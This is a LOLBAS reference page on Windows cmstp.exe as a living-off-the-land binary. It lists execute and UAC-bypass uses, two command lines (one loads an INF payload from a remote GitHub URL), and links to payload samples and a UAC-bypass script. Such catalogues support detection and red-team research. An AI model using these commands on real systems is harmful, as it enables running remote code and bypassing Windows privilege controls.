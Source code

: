 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## Cmstp.exe

* Functions: Execute, UACBypass

```
cmstp.exe /ni /s c:\cmstp\CorpVPN.inf     

cmstp.exe /ni /s https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp.inf     
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe
* Nick Tyrer - @NickTyrer

Code sample:
* [Cmstp.inf](https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp.inf)    
* [Cmstp_calc.sct](https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp_calc.sct)

Resources:
* https://twitter.com/NickTyrer/status/958450014111633408    
* https://gist.github.com/NickTyrer/bbd10d20a5bb78f64a9d13f399ea0f80     
* https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e
* https://oddvar.moe/2017/08/15/research-on-cmstp-exe/
* https://gist.githubusercontent.com/tylerapplebaum/ae8cb38ed8314518d95b2e32a6f0d3f1/raw/3127ba7453a6f6d294cd422386cae1a5a2791d71/UACBypassCMSTP.ps1 (UAC Bypass)
* https://github.com/hfiref0x/UACME

Full path:
```
C:\Windows\system32\cmstp.exe
C:\Windows\sysWOW64\cmstp.exe
```

Notes:



 